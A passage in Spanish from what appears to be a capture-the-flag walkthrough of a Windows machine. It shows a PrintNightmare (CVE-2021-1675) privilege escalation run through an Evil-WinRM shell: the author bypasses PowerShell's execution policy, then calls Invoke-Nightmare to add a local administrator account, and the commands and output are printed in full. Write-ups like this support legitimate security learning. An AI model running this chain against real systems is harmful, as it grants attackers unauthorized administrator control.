 ```bash
d-r---        6/11/2021   7:01 AM                Favorites
d-r---        6/11/2021   7:01 AM                Links
d-r---        6/11/2021   7:01 AM                Music
d-r---         8/6/2021   7:34 AM                OneDrive
d-r---        6/11/2021   7:03 AM                Pictures
d-r---        6/11/2021   7:01 AM                Saved Games
d-r---        6/11/2021   7:01 AM                Searches
d-r---        6/11/2021   7:01 AM                Videos
-a----        2/26/2022   3:46 PM         178561 CVE-2021-1675.ps1
```
Pruebo a ejecutar el exploit:

```powershell
*Evil-WinRM* PS C:\Users\tony\Contacts> .\CVE-2021-1675.ps1
File C:\Users\tony\Contacts\CVE-2021-1675.ps1 cannot be loaded because running scripts is disabled on this system. For more information, see about_Execution_Policies at http://go.microsoft.com/fwlink/?LinkID=135170.
At line:1 char:1
+ .\CVE-2021-1675.ps1
+ ~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : SecurityError: (:) [], PSSecurityException
    + FullyQualifiedErrorId : UnauthorizedAccess
```
Pero como se puede ver, no se nos permite ejecutar el exploit debido al [Execution Policy](https://docs.microsoft.com/es-es/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.2){:rel="noopener nofollow"} que nos restringe la ejecución de scripts.

Podemos verificar que esta opción está habilitada con el siguiente comando:

```powershell
*Evil-WinRM* PS C:\Users\tony\Contacts> Get-ExecutionPolicy

Restricted
```
Comprobamos que está **restringida** la ejecución de scripts.

Bien, hay varias maneras de _bypassear_ esta restricción. Una de ellas es simplemente cambiar la política para nuestro usuario, de la siguiente manera:

```powershell
*Evil-WinRM* PS C:\Users\tony\Contacts> Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
```
Ahora ya podríamos ejecutar el exploit:

```powershell
*Evil-WinRM* PS C:\Users\tony\Contacts> Import-Module .\cve-2021-1675.ps1
*Evil-WinRM* PS C:\Users\tony\Contacts> Invoke-Nightmare -NewUser "z3r0" -NewPassword "zero123$!"
[+] created payload at C:\Users\tony\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\mxdwdrv.dll"
[+] added user z3r0 as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll
```
